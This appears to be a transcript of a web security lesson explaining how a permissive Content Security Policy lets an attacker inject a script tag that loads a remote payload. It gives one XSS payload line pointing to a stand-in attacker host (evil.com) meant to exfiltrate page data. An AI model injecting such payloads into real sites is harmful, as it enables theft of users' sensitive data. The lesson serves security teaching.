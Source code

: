 [Video link](https://egghead.io/lessons/node-js-read-document-content-from-a-vulnerable-website-via-script-tag-injection-in-an-xss-payload)

# Read Document Content from a Vulnerable Website via Script Tag Injection in an XSS Payload

Now, to put our attacker hat back on!

We can see from the CSP that we allow scripts to be run over https.

If we save our payload on our server as `hijack.js`, this will make it accessible to other sites.

Now, in our message box if we send script tags to request the payload over https, then our malicious script will run and send sensitive data to our server.

```html
<script src="https://evil.com:666/hijack.js"></script>
```

This technique is known as remote script inclusion.
